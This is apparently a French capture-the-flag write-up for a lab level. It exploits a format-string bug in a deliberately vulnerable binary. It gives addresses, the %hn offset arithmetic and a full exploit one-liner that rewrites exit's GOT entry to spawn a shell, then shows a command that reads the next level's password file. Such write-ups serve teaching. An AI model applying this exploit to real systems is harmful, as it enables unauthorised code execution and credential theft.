 # level5 - Exploitation de la GOT via Format String

## Analyse du Programme

**Structure**
- Fonction `n()` avec `printf()` vulnérable
- Fonction `o()` avec `system("/bin/sh")` non appelée
- `exit()` appelé après `printf()`

**Adresses Importantes**
- `o()`: `0x080484a4`
- `exit@plt`: `0x80483d0`
- `exit@got.plt`: `0x8049838`

## Stratégie d'Exploitation

**Méthode**
- Réécriture de l'entrée GOT de `exit()`
- Redirection vers la fonction `o()`
- Utilisation de `%hn` pour écrire en deux parties

**Calcul des Offsets**
- Premier write: `0x0804` (2052 - 8 = 2044)
- Second write: `0x84a4` (33956 - 2052 = 31904)

## Exploitation

**Commande d'Exploitation**
```bash
(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044d" + "%4$hn" + "%31904d" + "%5$hn"'; cat) | ./level5
```

**Obtention du Flag**
```bash
cat /home/user/level6/.pass
```

Cette exploitation redirige l'appel à `exit()` vers la fonction `o()` en modifiant la GOT, permettant l'exécution du shell.
